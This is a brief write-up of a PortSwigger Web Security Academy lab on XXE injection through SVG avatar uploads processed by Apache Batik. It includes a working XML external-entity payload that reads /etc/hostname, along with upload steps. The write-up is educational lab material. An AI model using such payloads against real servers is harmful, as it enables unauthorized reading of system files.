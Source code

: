 # Lab: Exploiting XXE via image file upload
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
* Goal: To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

## Recon
In this lab, we can upload an exploited file which contained malicious xml data. Then we can fetch some sensitive information.

## Exp - Upload Exploited File as Avatar
1. Create an exploit text file
We can create a text file contained the payload below
The exploited payload in `.svg` files:
```xml!
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns ="http://www.w3.org/2000/svg" xmlns:xlink ="http://www.w3.org/1999/xlink" version="1.1"><text fontsize="16" x="0" y="16">&xxe;</text></svg>
```
2. Transfer to `svg` file and upload it
After transfering to `.svg` file, we can choose arbitrary post and leave a comment below
![](https://i.imgur.com/gQt4HCF.png)

3. Check your avatar
Then you get back to post page and verified your avatar photo should contain a string which is your flag(sensitive data) that you must submit.
:::spoiler Success Screenshot
![](https://i.imgur.com/W3Jg2Xs.png)
:::
